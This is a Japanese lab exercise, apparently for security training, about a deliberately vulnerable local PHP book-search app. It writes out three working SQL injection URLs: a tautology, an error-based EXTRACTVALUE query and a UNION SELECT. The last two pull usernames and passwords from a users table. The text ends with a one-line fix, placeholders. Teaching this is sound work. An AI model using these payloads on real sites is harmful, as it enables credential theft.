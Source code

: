 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは`search.php`の後に`?author=example`のような形で著者名による書籍データベース検索をします。
authorのパラメータに設定された文字列をそのままチェック等一切なしでSQL文に組み込んでいるため、SQLインジェクションができてしまいます。

正常な実行結果の例としては`http://127.0.0.1/search.php?author=Atabasca`を実行してみてください。

### 攻撃

1. `http://127.0.0.1/search.php?author='+OR+'a'='a` というURLでauthorパラメータを設定してアクセスする。
2. 実行された結果として、著者名に関係なく書籍データベースが取得できてしまう。
3. `http://127.0.0.1/search.php?author='+AND+EXTRACTVALUE(0,(SELECT+CONCAT('$',username,':',password)+FROM+users+LIMIT+0,1))+%23`というURLで同様にアクセスする。
4. 実行された結果、エラーメッセージとして`Unknown XPATH variable at: '$guest:...'`という形で、同じデータベースの別のテーブルとして入っているusername/passwordの組を取得できてしまう。
5. `http://127.0.0.1/search.php?author='+UNION+SELECT+username,password,NULL,NULL+FROM+users--+%60`というURLで同様にアクセスする。
6. 今度はテーブルの「ID」の欄にusername、「タイトル」の欄にpasswordが表示される形でテーブルusersの内容全部が取得できてしまう。

### 攻撃の対策

search.phpをプレースホルダを使うように書き換えることで脆弱性をなくすことができます。

